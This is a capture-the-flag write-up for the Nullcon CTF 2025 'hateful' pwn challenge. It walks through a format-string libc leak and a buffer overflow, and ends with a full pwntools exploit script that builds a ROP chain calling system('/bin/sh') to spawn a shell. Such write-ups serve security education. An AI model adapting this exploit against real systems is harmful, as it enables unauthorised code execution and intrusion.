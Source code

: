 ```yaml
---
title: hateful
description: |
    You hate your Boss??? You wanna just trash talk him but you are afraid he would fire you???
    Dont worry we got you! send us the message you want to send him and we will take care of everything for you!
categories: ["ctf", "Nullcon CTF 2025"]
tags: ["pwn"]
media_subpath: "/assets/posts/2025/nullcon/hateful"
---
```


We have a classic buffer overflow and a printf vulnerability:

![](01.png)

![](02.png)

We have a partial RELRO and no PIE so we can easily overwrite the GOT:

![](03.png)

We need a libc leak. Since we have the controlled printf, we can leak `main`'s return address, which is somewhere in `__libc_start_main`.

Using `pwndbg` we can set a breakpoint at the printf call, see where the return address is, then calculate the offset from RSP 
(then adding 5 which are the rest of the register arguments except the format string).

![](04.pong)

We can leak the address and compute the base using the following code:

```py
io = process("./hateful_patched")

io.sendlineafter(b">> ",  b"yay")
io.sendlineafter(b">> ", b"%171$p")

libc_leak = int(io.recvline().strip().split(b": ")[-1], 16)
log.success(f"{libc_leak = :#0x}")
libc_base = libc_leak - 0x27305
log.success(f"{libc_base = :#0x}")
```

![](05.png)

Now all we have to do is send a ROP chain to call `system("/bin/sh")`. Since we have the libc base address, we also have a lot of ROP gadgets.

Final code:

```py
from pwn import *

context.terminal = ["ghostty", "-e"]
context.binary = "./hateful_patched"
context.log_level = "debug"

elf = ELF("./hateful_patched")
rop = ROP("./hateful_patched")
libc_elf = ELF("./libc.so.6")
libc_rop = ROP("./libc.so.6")

# io = gdb.debug("./hateful_patched", """
#     b *send_message + 0x5b
#     b *send_message + 0xb9
#     c
# """)

io = process("./hateful_patched")
#io = remote("52.59.124.14", 5020)

io.sendlineafter(b">> ",  b"yay")
io.sendlineafter(b">> ", b"%171$p")

libc_leak = int(io.recvline().strip().split(b": ")[-1], 16)
log.success(f"{libc_leak = :#0x}")
libc_base = libc_leak - 0x27305
log.success(f"{libc_base = :#0x}")


payload = flat(
    b"A" * 1016,
    p64(libc_base + libc_rop.ret.address),
    p64(libc_base + libc_rop.rdi.address),
    p64(libc_base + next(libc_elf.search(b"/bin/sh\x00"))),
    p64(libc_base + libc_elf.sym.system),
)

io.sendlineafter(b"the message!\n", payload)

io.interactive()
```